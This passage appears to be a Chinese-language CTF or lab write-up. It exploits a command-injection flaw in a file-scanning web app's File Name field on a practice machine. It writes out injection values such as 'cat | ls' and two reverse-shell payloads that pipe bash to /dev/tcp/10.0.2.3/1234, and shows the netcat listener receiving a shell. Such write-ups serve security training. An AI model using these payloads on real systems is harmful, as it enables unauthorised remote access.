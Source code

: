 ![image-20251022143836799](images/image-20251022143836799.png)

File Name 填了一个 `cat`，Scan 一下试试

![image-20251022144011505](images/image-20251022144011505.png)

猜测有命令注入，试试 `cat | ls` 

![image-20251022144110761](images/image-20251022144110761.png)

设反弹 Shell：`cat | bash -i >& /dev/tcp/10.0.2.3/1234 0>&1`

发现这个不行，又换了一个 `hello | echo 'bash -i >& /dev/tcp/10.0.2.3/1234 0>&1' | bash`

```yacas
> nc -lvp 1234
listening on [any] 1234 ...
Warning: forward host lookup failed for bogon: Unknown host
connect to [10.0.2.3] from bogon [10.0.2.4] 40794
bash: cannot set terminal process group (733): Inappropriate ioctl for device
bash: no job control in this shell
scanner@cloudav:~/cloudav_app$
```
